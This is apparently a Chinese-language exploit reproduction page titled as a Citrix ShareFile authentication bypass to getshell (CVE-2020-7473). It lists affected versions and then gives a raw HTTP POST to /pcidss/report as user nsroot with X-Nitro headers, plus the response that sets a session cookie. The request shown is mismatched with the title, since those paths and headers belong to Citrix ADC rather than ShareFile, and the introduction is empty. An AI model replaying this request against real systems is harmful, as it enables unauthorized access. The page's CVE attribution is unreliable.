 （CVE-2020-7473）Citrix 认证绕过getshell
========================================

一、漏洞简介
------------

二、漏洞影响
------------

ShareFile storage zones Controller 5.9.0

ShareFile storage zones Controller 5.8.0

ShareFile storage zones Controller 5.7.0

ShareFile StorageZones Controller 5.6.0

ShareFile StorageZones Controller 5.5.0

及ShareFile StorageZones Controller更早版本

三、复现过程
------------

### 0x01 CreateSession

> request

    POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
    Host: www.0-sec.org:9080
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36 C845D9D38B3A68F4F74057DB542AD252 tx/2.0
    Content-Length: 44
    Accept-Encoding: gzip, deflate
    Connection: close
    Content-Type: application/xml
    Range: bytes=0-102400
    X-Nitro-Pass: jr9bt
    X-Nitro-User: boej3

    <appfwprofile><login></login></appfwprofile>

> response

    HTTP/1.1 406 Not Acceptable
    Date: Sun, 12 Jul 2020 07:52:00 GMT
    Server: Apache/2.4.34 (Unix)
    Set-Cookie: SESSID=eb1780b044676f588dbcc2a6305f6b57; path=/; HttpOnly
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
    Pragma: no-cache
    Content-Length: 4489
    Connection: close
    Content-Type: application/xml; charset=utf-8
